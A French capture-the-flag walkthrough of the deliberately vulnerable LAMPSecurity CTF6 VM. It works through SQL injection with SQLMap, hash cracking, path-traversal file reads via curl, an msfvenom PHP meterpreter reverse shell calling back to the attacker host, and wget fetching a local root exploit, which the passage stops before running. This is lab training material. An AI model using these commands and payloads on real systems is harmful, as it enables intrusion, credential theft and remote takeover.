


# LAMPSecurity: CTF6

Lecture recommandée : [Walkthrough sur le challenge LAMPSecurity: CTF5](/CTF-VulnLabs/lampsecurity-CTF5)

[LAMPSecurity](https://sourceforge.net/projects/lampsecurity/) est un projet conçu par
[le chercheur en sécurité madirish2600](https://www.vulnhub.com/author/madirish2600,75/), qui nous gratifie d'un ensemble de machines virtuelles volontairement vulnérables. L'objectif est de trouver et d'exploiter des vulnérabilités sur chacune de ces VM, afin d'obtenir les privilèges d'administration (root) et de récupérer un flag, preuve de l'intrusion et synonyme de validation du challenge. Ce _walkthrough_ sera consacré à la résolution complète de la sixième VM de la série, [LAMPSecurity CTF6](https://www.vulnhub.com/entry/lampsecurity-ctf6,85/). Vous voilà prévenus, attention aux spoilers.

## Recherche d'informations

192.168.56.102 est l'adresse IP de ma machine virtuelle [Kali](https://docs.kali.org/introduction/what-is-kali-linux), tandis que 192.168.56.101 correspond à l'adresse IP de la VM LAMPSecurity CTF6. L'outil [nmap](https://nmap.org/book/man.html) est lancé en premier afin de détecter les ports ouverts sur le serveur CTF6, d'identifier les services installés et d'obtenir des informations sur le système d'exploitation.

```console
root@blinils:~# nmap -sT -sV -p- 192.168.56.101

Nmap scan report for 192.168.56.101
Host is up (0.019s latency).
Not shown: 65525 closed ports
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 4.3 (protocol 2.0)
80/tcp   open  http     Apache httpd 2.2.3 ((CentOS))
110/tcp  open  pop3     Dovecot pop3d
111/tcp  open  rpcbind  2 (RPC #100000)
143/tcp  open  imap     Dovecot imapd
443/tcp  open  ssl/http Apache httpd 2.2.3 ((CentOS))
719/tcp  open  status   1 (RPC #100024)
993/tcp  open  ssl/imap Dovecot imapd
995/tcp  open  ssl/pop3 Dovecot pop3d
3306/tcp open  mysql    MySQL 5.0.45
MAC Address: 08:00:08:00:08:00 (Oracle VirtualBox virtual NIC)
```

Il est possible de [se connecter à distance avec SSH](https://en.wikipedia.org/wiki/Secure_Shell) au serveur LAMPSecurity CTF6 (port 22), un serveur Web Apache 2.2.3 (ports 80/443), une base de données MySQL (port 3306) et un serveur de messagerie électronique (ports 110/143/993/995) y sont installés. Pour chacun de ces services, il est désormais temps de partir à la chasse aux vulnérabilités.

Le serveur Web semble a priori le plus alléchant pour commencer ; le site qu'il va falloir analyser de fond en comble est une plate-forme d'achat et de vente en ligne développée en PHP. Celle-ci est spécialisée dans les widgets, [mot anglais générique](https://fr.wiktionary.org/wiki/pantonyme) qui désigne des trucs, des machins, des bidules... un peu comme les mots magiques _[stuff](https://en.wiktionary.org/wiki/stuff)_ en anglais et _[schtroumpf](https://fr.wiktionary.org/wiki/schtroumpf)_ en français.


Quatre annonces y ont été publiées, numérotées de 1 à 4, mais il s'agit de [faux-texte](https://fr.wikipedia.org/wiki/Faux-texte). Les contacts de cinq salariés de Widgets Inc. figurent en page d'accueil, ces informations seront certainement très utiles par la suite : John Sloan - CEO, Linda Charm - Manager, Fred Beekman - Sales, Molly Steele - Assistant, Toby Victor - Technical.

## Exploitation d'une injection SQL sur le paramètre id

Après quelques tests, on s'aperçoit que l'URL http://192.168.56.101/index.php?id=4 renvoie l'annonce _Suspendisse sapien orci_ tandis que http://192.168.56.101/index.php?id=4%20OR%201=1 renvoie l'ensemble des annonces publiées sur le site ; cela signifie très probablement qu'il y a une injection SQL d'exploitable sur la plate-forme.

Afin d'éviter de longs tests manuels fastidieux, pour trouver la bonne syntaxe permettant d'exfiltrer les données de la base MySQL, SQLMap vient à la rescousse. Il s'agit [d'un outil open source permettant d'identifier et d'exploiter une injection SQL](https://connect.ed-diamond.com/MISC/MISC-062/Utilisation-avancee-de-sqlmap) sur des applications Web. En lui spécifiant l'URL du site Web ainsi que les paramètres à tester, SQLMap va tester différentes techniques afin d'identifier la présence d'une injection SQL...

```console
root@blinils:~# sqlmap -u "http://192.168.56.101/index.php?id=14"
--snip--
[00:11:22] [INFO] testing connection to the target URL
[00:11:22] [INFO] checking if the target is protected by some kind of WAF/IPS/IDS
[00:11:22] [INFO] testing if the target URL content is stable
[00:11:22] [INFO] target URL content is stable
[00:11:22] [INFO] testing if GET parameter 'id' is dynamic
[00:11:22] [WARNING] GET parameter 'id' does not appear to be dynamic
[00:11:22] [WARNING] heuristic (basic) test shows that GET parameter 'id' might not be injectable
[00:11:22] [INFO] testing for SQL injection on GET parameter 'id'
--snip--
[00:11:22] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind'
[00:11:22] [INFO] GET parameter 'id' appears to be 'MySQL >= 5.0.12 AND time-based blind' injectable 
--snip--
[00:11:22] [INFO] target URL appears to be UNION injectable with 7 columns
[00:11:22] [INFO] GET parameter 'id' is 'Generic UNION query (NULL) - 1 to 20 columns' injectable
--snip--
Parameter: id (GET)
    Type: AND/OR time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind
    Payload: id=14 AND SLEEP(5)

    Type: UNION query
    Title: Generic UNION query (NULL) - 7 columns
    Payload: id=14 UNION ALL SELECT NULL,NULL,CONCAT(0x71,0x68,0x71),NULL,NULL,NULL,NULL-- ScYF
---
[00:11:22] [INFO] the back-end DBMS is MySQL
web server operating system: Linux CentOS 5.10
web application technology: PHP 5.2.6, Apache 2.2.3
back-end DBMS: MySQL >= 5.0.12
[00:11:22] [INFO] fetched data logged to text files under '/root/.sqlmap/output/192.168.56.101'
```

En quelques secondes à peine, SQLMap a détecté qu'il s'agit d'une base de données MySQL et que le paramètre testé _id_ est vulnérable aux injections SQL. Après plusieurs tentatives, SQLMap récupère les tables (--tables) ainsi que les colonnes (--columns) présentes dans chaque base de données trouvée (--dbs), et tant qu'à faire, autant récupérer tout le contenu de la base de données (--dump-all).

```console
root@blinils:~# sqlmap -u "http://192.168.56.101/index.php?id=14" --dbms=MySQL --dbs -v0
--snip--
available databases [5]:
[*] cms
[*] information_schema
[*] mysql
[*] roundcube
[*] test
```

C'est parti pour le dump des données !

```console
root@blinils:~# sqlmap -u "http://192.168.56.101/index.php?id=14" --dbms=MySQL -D cms --tables
--snip--
[00:11:22] [INFO] fetching tables for database: 'cms'
Database: cms
[3 tables]
+-------+
| user  |
| event |
| log   |
+-------+

--snip--

root@blinils:~# sqlmap -u "http://192.168.56.101/index.php?id=14" --dbms=MySQL --dump -D cms -T user
--snip--
[00:11:22] [INFO] fetching columns for table 'user' in database 'cms'
[00:11:22] [INFO] fetching entries for table 'user' in database 'cms'
[00:11:22] [INFO] recognized possible password hashes in column 'user_password'
do you want to store hashes to a temporary file for eventual further processing with other tools [y/N] y
[00:11:22] [INFO] writing hashes to a temporary file '/tmp/sqlmapbMP1dW10777/sqlmaphashes-vbDWaU.txt' 
do you want to crack them via a dictionary-based attack? [Y/n/q] Y
[00:11:22] [INFO] using hash method 'md5_generic_passwd'
what dictionary do you want to use?
[1] default dictionary file '/usr/share/sqlmap/txt/wordlist.zip' (press Enter)
[2] custom dictionary file
[3] file with list of dictionary files
> 1
[00:11:22] [INFO] using default dictionary
do you want to use common password suffixes? (slow!) [y/N] N
[00:11:22] [INFO] starting dictionary-based cracking (md5_generic_passwd)
[00:11:22] [INFO] starting 2 processes 
[00:11:22] [INFO] cracked password 'adminpass' for hash '25e4ee4e9229397b6b17776bfceaf8e7'
Database: cms
Table: user
[1 entry]
+---------+---------------+----------------------------------------------+
| user_id | user_username | user_password                                |
+---------+---------------+----------------------------------------------+
| 1       | admin         | 25e4ee4e9229397b6b17776bfceaf8e7 (adminpass) |
+---------+---------------+----------------------------------------------+
```

[L'attaque par dictionnaire sur le hash de mot de passe](https://repo.zenk-security.com/Reversing%20.%20cracking/Cracking_Passwords_Guide.pdf) a porté ses fruits : on a récupéré le mot de passe de l'admin !

## Recherche d'autres vulnérabilités Web avec nikto

Un peu de recherche automatisée ne fera pas de mal avec [nikto](https://cirt.net/nikto2-docs/), un outil d'audit pour serveurs Web.

```console
root@blinils:~# nikto -h http://192.168.56.101/
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          192.168.56.101
+ Target Hostname:    192.168.56.101
+ Target Port:        80
+ Start Time:         2018-01-01 12:34:56 (GMT2)
---------------------------------------------------------------------------
+ Server: Apache/2.2.3 (CentOS)
+ Cookie PHPSESSID created without the httponly flag
+ Retrieved x-powered-by header: PHP/5.2.6
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ Apache/2.2.3 appears to be outdated (current is at least Apache/2.4.12). Apache 2.0.65 (final release) and 2.2.29 are also current.
+ Allowed HTTP Methods: GET, HEAD, POST, OPTIONS, TRACE 
+ Web Server returns a valid response with junk HTTP methods, this may cause false positives.
+ OSVDB-877: HTTP TRACE method is active, suggesting the host is vulnerable to XST
+ OSVDB-12184: /?=PHPB8B5F2A0-3C92-11d3-A3A9-4C7B08C10000: PHP reveals potentially sensitive information via certain HTTP requests that contain specific QUERY strings.
+ OSVDB-12184: /?=PHPE9568F34-D428-11d2-A769-00AA001ACF42: PHP reveals potentially sensitive information via certain HTTP requests that contain specific QUERY strings.
+ OSVDB-12184: /?=PHPE9568F35-D428-11d2-A769-00AA001ACF42: PHP reveals potentially sensitive information via certain HTTP requests that contain specific QUERY strings.
+ OSVDB-3268: /files/: Directory indexing found.
+ OSVDB-3092: /files/: This might be interesting...
+ OSVDB-3268: /lib/: Directory indexing found.
+ OSVDB-3092: /lib/: This might be interesting...
+ Cookie roundcube_sessid created without the httponly flag
+ OSVDB-3092: /mail/: This might be interesting...
+ OSVDB-3092: /phpmyadmin/changelog.php: phpMyAdmin is for managing MySQL databases, and should be protected or limited to authorized hosts.
+ Server leaks inodes via ETags, header found with file /phpmyadmin/ChangeLog, inode: 97164, size: 35791, mtime: Wed Oct 19 22:47:44 2095
+ OSVDB-3092: /phpmyadmin/ChangeLog: phpMyAdmin is for managing MySQL databases, and should be protected or limited to authorized hosts.
+ OSVDB-3268: /sql/: Directory indexing found.
+ OSVDB-3092: /manual/: Web server manual found.
+ OSVDB-3268: /icons/: Directory indexing found.
+ OSVDB-3268: /manual/images/: Directory indexing found.
+ OSVDB-3268: /docs/: Directory indexing found.
+ OSVDB-3233: /icons/README: Apache default file found.
+ /phpmyadmin/: phpMyAdmin directory found
+ OSVDB-3092: /phpmyadmin/Documentation.html: phpMyAdmin is for managing MySQL databases, and should be protected or limited to authorized hosts.
+ 8496 requests: 0 error(s) and 29 item(s) reported on remote host
+ End Time:           2018-01-01 12:35:46 (GMT2) (50 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```

Palsambleu ! Il y a tellement de pistes intéressantes à creuser que l'on ne sait plus où donner de la tête.

### Présence d'un fichier db.sql en libre accès

[Tout comme lors du challenge CTF4](/CTF-VulnLabs/lampsecurity-CTF4), un fichier SQL est accessible sans authentification. Il s'agit du script de création de la base de données « cms », avec trois tables : user, event et log. Le fichier est disponible à l'adresse http://192.168.56.101/sql/db.sql et en y regardant de plus près, le mot de passe de l'administrateur est même fourni en clair dans le fichier. Mais toutes ces informations, nous les avions déjà trouvées avec l'injection SQL du début. Next !

```sql
CREATE database IF NOT EXISTS cms;

use mysql;

GRANT ALL PRIVILEGES ON cms.* to 'sql_account'@'localhost' IDENTIFIED BY 'sql_password';

use cms;

DROP TABLE IF EXISTS user;
DROP TABLE IF EXISTS event;
DROP TABLE IF EXISTS log;

CREATE TABLE IF NOT EXISTS user (
	user_id int not null auto_increment primary key,
	user_username varchar(50) not null,
	user_password varchar(32) not null
);

CREATE TABLE IF NOT EXISTS event (
	event_id int not null auto_increment primary key,
	event_title varchar(255) not null,
	event_body text,
	event_file varchar(255) default null,
	user_id int not null,
	event_hits int default 0
);

CREATE TABLE IF NOT EXISTS log (
	log_id int not null auto_increment primary key,
	log_ip varchar(20),
	log_referer varchar(255),
	log_useragent varchar(255)
);

DELETE FROM user;
DELETE FROM event;
DELETE FROM log;

INSERT INTO user SET user_id = 1, user_username='admin', user_password=md5('adminpass');
```

### Présence d'un fichier phpinfo() dans le répertoire /docs

Outre la détection des versions de PHP (5.2.6) et d'Apache (2.2.3 CentOS), l'outil nikto a repéré [une page phpinfo()](http://php.net/manual/fr/function.phpinfo.php) dans le répertoire /docs qui affiche de nombreuses informations « sur PHP, concernant sa configuration courante : options de compilation, extensions, version, informations sur le serveur, et l'environnement (lorsqu'il est compilé comme module), environnement PHP, informations sur le système, chemins, valeurs générales et locales de configuration, en-têtes HTTP et la licence PHP ». Et notamment...

```
System		Linux localhost.localdomain 2.6.18-92.el5 #1 SMP Tue Jun 10 18:49:47 EDT 2008 i686
Build Date	Sep 15 2008 20:43:45
```

Il s'agit d'une information très utile, si jamais des [failles système](https://fr.wiktionary.org/wiki/local_root_exploit) venaient à être nécessaires [pour une élévation de privilèges](https://www.exploit-db.com/local/) sur le serveur. Mais... mais... il y a même le code source complet du site Web (code_backup.tgz) en libre accès dans ce même répertoire !

### Analyse de code_backup.tgz : présence d'identifiants et de mots de passe

Preuve que nikto (et n'importe quel outil de manière générale) n'est pas infaillible, le répertoire /conf n'a pas été inscrit dans la longue liste d'éléments trouvés ci-dessus. Pourtant, le fichier config.ini contient des informations particulièrement alléchantes pour un attaquant. À noter que l'accès direct via http://192.168.56.101/conf/config.ini nous est interdit en raison du fichier [.htaccess](https://httpd.apache.org/docs/2.4/fr/howto/htaccess.html).

```ini
;
; This is the configuration file
;
database_host	=	localhost
database_pass	=	45kkald?8laLKD
database_user	=	cms_user
database_db	=	cms
```

En ce qui concerne le répertoire /logs, celui-ci est protégé par une authentification [htpasswd](https://httpd.apache.org/docs/2.4/fr/programs/htpasswd.html), c'est-à-dire qu'un login et un mot de passe sont demandés (_401 Authorization Required_) lors de la consultation de la page http://192.168.56.101/logs. Et que contient le fichier .htpasswd ?

```
admin:mFiIPQcxSFjRA
```

À toi de jouer, [John The Ripper](http://openwall.com/john/) !

```console
root@blinils:~# john htpasswdCTF6 --wordlist=rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (descrypt, traditional crypt(3) [DES 128/128 AVX-16])
Press 'q' or Ctrl-C to abort, almost any other key for status
adminpass         (admin)
1g 0:00:00:00 DONE (2018-01-01 01:01) 3.571g/s 1865Kp/s 1865Kc/s 1865KC/s adv123..aden05
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

### Analyse de code_backup.tgz : exploitation de l'injection SQL

Parmi les fichiers présents dans code_backup.tgz, on trouve dans /actions le fichier default.php, dont voici un extrait. 

```php
$id = isset($_GET['id']) ? $_GET['id'] : 0;

if ($id) {
	$sql = "select e.*, u.user_username
			from event e, user u
			where 
				e.user_id = u.user_id
				AND e.event_id = " . $id;
}

--snip--

$query = mysql_query($sql) or $log->append("Problem with event select: . " . mysql_error());
```

Les failles dites d'injection surviennent lorsqu'il n'y a pas de contrôle, de filtrage ou de validation sur les données entrantes. L'injection SQL trouvée sur le site s'explique : le paramètre $id fourni par l'utilisateur (via la méthode GET) est utilisé tel quel, concaténé à la requête SQL sans aucune vérification, alors qu'il doit obligatoirement s'agir d'une valeur numérique supérieure ou égale à zéro.

### Analyse de code_backup.tgz : Local File Inclusion (LFI) sur la page login.php

Dans ce même répertoire /actions, le fichier login.php nous réserve une bonne surprise !

```php
if ($logged_in) 
	include_once('templates/logged_in.tpl');
else 
	include_once('templates/'.$_GET['action'].'.tpl');
```

Une [inclusion de fichier local](http://www.commentcamarche.net/contents/61-attaques-par-manipulation-d-url) (_remote file inclusion_ en anglais) semble possible via ce fichier PHP et son paramètre _action_. Le but du jeu consiste à lire le contenu de fichiers stockés sur le serveur, autres que ceux initialement prévus dans le schéma de navigation du site. Le dossier templates contient bien une dizaine de fichiers (add_event.tpl, changepass.tpl, footer.tpl, header.tpl, login.tpl...), mais rien n'empêche d'inclure un autre fichier présent sur le serveur, puisqu'aucun contrôle n'est implémenté sur la valeur du paramètre _action_.

Exemple avec le fichier /etc/passwd qui contient la liste des utilisateurs du système.

On y retrouve notamment les cinq membres du staff pro-widget-certified-widget John, Linda, Fred, Molly et Toby.

```console
root@blinils:~# curl http://192.168.56.101/actions/login.php?action=../../../../../../../../etc/passwd%00
root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
news:x:9:13:news:/etc/news:
uucp:x:10:14:uucp:/var/spool/uucp:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
games:x:12:100:games:/usr/games:/sbin/nologin
gopher:x:13:30:gopher:/var/gopher:/sbin/nologin
ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin
nobody:x:99:99:Nobody:/:/sbin/nologin
rpm:x:37:37::/var/lib/rpm:/sbin/nologin
dbus:x:81:81:System message bus:/:/sbin/nologin
avahi:x:70:70:Avahi daemon:/:/sbin/nologin
mailnull:x:47:47::/var/spool/mqueue:/sbin/nologin
smmsp:x:51:51::/var/spool/mqueue:/sbin/nologin
distcache:x:94:94:Distcache:/:/sbin/nologin
apache:x:48:48:Apache:/var/www:/sbin/nologin
nscd:x:28:28:NSCD Daemon:/:/sbin/nologin
vcsa:x:69:69:virtual console memory owner:/dev:/sbin/nologin
rpc:x:32:32:Portmapper RPC user:/:/sbin/nologin
rpcuser:x:29:29:RPC Service User:/var/lib/nfs:/sbin/nologin
nfsnobody:x:65534:65534:Anonymous NFS User:/var/lib/nfs:/sbin/nologin
sshd:x:74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologin
squid:x:23:23::/var/spool/squid:/sbin/nologin
mysql:x:27:27:MySQL Server:/var/lib/mysql:/bin/bash
pcap:x:77:77::/var/arpwatch:/sbin/nologin
haldaemon:x:68:68:HAL daemon:/:/sbin/nologin
dovecot:x:97:97:dovecot:/usr/libexec/dovecot:/sbin/nologin
john:x:500:500::/home/john:/bin/bash
linda:x:501:501::/home/linda:/bin/bash
fred:x:502:502::/home/fred:/bin/bash
molly:x:503:503::/home/molly:/bin/bash
toby:x:504:504::/home/toby:/bin/bash
```

Ou encore le fichier config.ini obtenu précédemment et ce, malgré la mise en place du .htpasswd.

```console
root@blinils:~# curl http://192.168.56.101/actions/login.php?action=../../conf/config.ini%00
;
; This is the configuration file
;
database_host	=	localhost
database_pass	=	45kkald?8laLKD
database_user	=	cms_user
database_db	=	cms
```

### Analyse de code_backup.tgz : injection SQL sur la page login.php

Dans cette même page, une autre portion de code est particulièrement intéressante (et vulnérable).

```php
if (isset($_POST['username']) && isset($_POST['password'])) {
	$sql = "select user_id from user 
			where user_username = '" . $_POST['username'] . "'";
	$query = mysql_query($sql) or die("Query error with $sql: " . mysql_error());
	if ($query && mysql_num_rows($query) > 0) {
		//user exists
		$uname = mysql_fetch_object($query);
		$sql = "select * from user where user_id = " . $uname->user_id . 
			" AND user_password = md5('" . $_POST['password'] . "')";
		$query = mysql_query($sql) 
			or $log->append("Query error in login $sql<hr/> " . mysql_error());
		
        --snip--
	}
	
	--snip--
}
```

Tout est question de filtrage, de validation et de contrôle sur les données entrantes. Les valeurs _username_ et _password_ fournies par l'utilisateur ne sont pas contrôlées, et une personne malveillante pourrait y inclure du code SQL afin de récupérer ce qu'il y a en base de données.

```console
root@blinils:~# sqlmap -u "http://192.168.56.101/?action=login" --data="username=test&password=test" --dbms=MySQL
--snip--
[02:02:02] [INFO] testing connection to the target URL
[02:02:02] [INFO] checking if the target is protected by some kind of WAF/IPS/IDS
[02:02:02] [INFO] testing if the target URL content is stable
[02:02:02] [INFO] target URL content is stable
[02:02:02] [INFO] testing if POST parameter 'username' is dynamic
[02:02:02] [WARNING] POST parameter 'username' does not appear to be dynamic
[02:02:02] [INFO] heuristic (basic) test shows that POST parameter 'username' might be injectable (possible DBMS: 'MySQL')
[02:02:02] [INFO] heuristic (XSS) test shows that POST parameter 'username' might be vulnerable to cross-site scripting (XSS) attacks
--snip--
[02:02:02] [INFO] POST parameter 'username' is 'MySQL >= 4.1 OR error-based - WHERE or HAVING clause (FLOOR)' injectable 
--snip--
[02:02:02] [INFO] POST parameter 'username' appears to be 'MySQL >= 5.0.12 OR time-based blind' injectable 
--snip--
POST parameter 'username' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 415 HTTP(s) requests:
---
Parameter: username (POST)
    Type: boolean-based blind
    Title: MySQL RLIKE boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause
    Payload: username=test' RLIKE (SELECT (CASE WHEN (8038=8038) THEN 0x74657374 ELSE 0x28 END))-- vYhy&password=test

    Type: error-based
    Title: MySQL >= 4.1 OR error-based - WHERE or HAVING clause (FLOOR)
    Payload: username=test' OR ROW(4885,3269)>(SELECT COUNT(*),
    CONCAT(0x717a706a71,(SELECT (ELT(4885=4885,1))),0x716b707671,FLOOR(RAND(0)*2))x
    FROM (SELECT 7990 UNION SELECT 7409 UNION SELECT 4553 UNION SELECT 5896)a GROUP BY x)-- qGuh&password=test

    Type: AND/OR time-based blind
    Title: MySQL >= 5.0.12 OR time-based blind
    Payload: username=test' OR SLEEP(5)-- RtzG&password=test
---
[02:02:02] [INFO] the back-end DBMS is MySQL
web server operating system: Linux CentOS 5.10
web application technology: PHP 5.2.6, Apache 2.2.3
back-end DBMS: MySQL >= 4.1
```

## Formulaire d'upload et reverse shell

Le couple d'identifiants admin/adminpass permet de se connecter en tant qu'administrateur sur la plate-forme. Celui-ci a la possibilité de créer des articles sur le site, et d'y adjoindre une image via un formulaire d'upload. Or cette fonctionnalité n'est pas filtrée, car après plusieurs tests, on constate qu'aucune vérification n'est en place, sur l'extension ou le type du fichier.


Extrait du fichier add_event.php sur la fonctionnalité d'upload.

```php
if (isset($_FILES['upload'])) {
		$uploaddir = 'files/';
		$uploadfile = $uploaddir . basename($_FILES['upload']['name']);
		if (! move_uploaded_file($_FILES['upload']['tmp_name'], $uploadfile)) {
			$log->append("Log upload problem with file array: $_FILES");
			$log->append("Upload file name: $uploadfile");
			$log->append("Upload file tmp name: " . $_FILES['upload']['tmp_name']);
		}
	}
```

Il est ainsi possible de transférer [un script malveillant](http://pentestmonkey.net/tools/web-shells/php-reverse-shell) afin d'interagir avec le serveur, d'y exécuter des commandes arbitraires et d'en prendre le contrôle. Le principe est le suivant : un [_reverse shell_](https://www.asafety.fr/reverse-shell-one-liner-cheat-sheet/) en PHP va être créé et déposé sur le serveur. Ce bout de code va, dans un premier temps, créer une connexion sur le port 12345 entre le serveur CTF6 (192.168.56.101) et notre propre machine (192.168.56.102), avant d'envoyer un [meterpreter](https://www.offensive-security.com/metasploit-unleashed/meterpreter-basics/) à travers la connexion créée, qui sera exécuté sur le serveur distant.

```console
root@blinils:~# msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.56.102 LPORT=12345 -o shell.php
No platform was selected, choosing Msf::Module::Platform::PHP from the payload
No Arch selected, selecting Arch: php from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 1116 bytes
Saved as: shell.php
```

Un listener est alors mis en place sur notre machine, afin d'écouter toute connexion entrante sur le port 12345.

```console
root@blinils:~# service postgresql start
root@blinils:~# msfdb start
root@blinils:~# msfconsole
                                                  
--snip--
msf > use exploit/multi/handler
msf exploit(multi/handler) > set payload php/meterpreter/reverse_tcp
payload => php/meterpreter/reverse_tcp
msf exploit(multi/handler) > set LHOST 192.168.56.102
LHOST => 192.168.56.102
msf exploit(multi/handler) > set LPORT 12345
LPORT => 12345

msf exploit(multi/handler) > exploit -j
[*] Exploit running as background job 1.

[*] Started reverse TCP handler on 192.168.56.102:12345
```

Le simple fait de consulter la news sur le site Web amorce la connexion.

```console
msf exploit(multi/handler) > [*] Sending stage (37775 bytes) to 192.168.56.101
[*] Meterpreter session 1 opened (192.168.56.102:12345 -> 192.168.56.101:50145) at 2018-01-01 01:01:01 +0200

msf exploit(multi/handler) > sessions

Active sessions
===============

  Id  Name  Type                   Information                          Connection
  --  ----  ----                   -----------                          ----------
  1         meterpreter php/linux  apache (48) @ localhost.localdomain  192.168.56.102:12345 -> 192.168.56.101:50145 (192.168.56.101)
```

Il ne nous reste plus qu'à créer un [pseudo-terminal Bash](https://netsec.ws/?p=337) avec le module PTY.

```console
msf exploit(multi/handler) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > sysinfo
Computer    : localhost.localdomain
OS          : Linux localhost.localdomain 2.6.18-92.el5 #1 SMP Tue Jun 10 18:49:47 EDT 2008 i686
Meterpreter : php/linux

meterpreter > shell
Process 4940 created.
Channel 1 created.

id
uid=48(apache) gid=48(apache) groups=48(apache)

python -c 'import pty; pty.spawn("/bin/bash")'
bash-3.2$ 
```

### Élévation de privilèges (root)

Après plusieurs essais infructueux, j'ai finalement réussi à passer root avec [cet exploit](https://www.exploit-db.com/exploits/8478/).

Hop, un petit serveur Web pour mettre l'exploit (disponible également sur Kali) à disposition de la VM LampSecurity.

```console
root@blinils:~# cp /usr/share/exploitdb/exploits/linux/local/8478.sh 8478.sh
root@blinils:~# python -m SimpleHTTPServer
Serving HTTP on 0.0.0.0 port 8000 ...
```

Pendant ce temps, sur la VM...

```console
bash-3.2$ id
id
uid=48(apache) gid=48(apache) groups=48(apache)

bash-3.2$ ls
ls
drive-removable-media-ieee1394.png  redhat-home.png
media-optical-bd.png		    shell.php
palm-pilot.png			    stock_new-appointment.png
redhat-applications.png

bash-3.2$ wget http://192.168.56.102:8000/8478.sh -q
wget http://192.168.56.102:8000/8478.sh -q

bash-3.2$ ls
ls
8478.sh				    redhat-applications.png
drive-removable-media-ieee1394.png  redhat-home.png
media-optical-bd.png		    shell.php
palm-pilot.png			    stock_new-appointment.png
```

Premier essai : raté, il faut ajouter la permission d'exécution au fichier.

```console
bash-3.2$ ./8478.sh
./8478.sh
bash: ./8478.sh: Permission denied
bash-3.2$ chmod +x 8478.sh
chmod +x 8478.sh
```

Deuxième essai : raté, il y a un petit souci de syntaxe facilement résoluble en une ligne de commande.

```console
bash-3.2$ ./8478.sh
./8478.sh
bash: ./8478.sh: /bin/sh^M: bad interpreter: No such file or directory
bash-3.2$ sed -i -e 's/\r$//' 8478.sh
sed -i -e 's/\r$//' 8478.sh
```

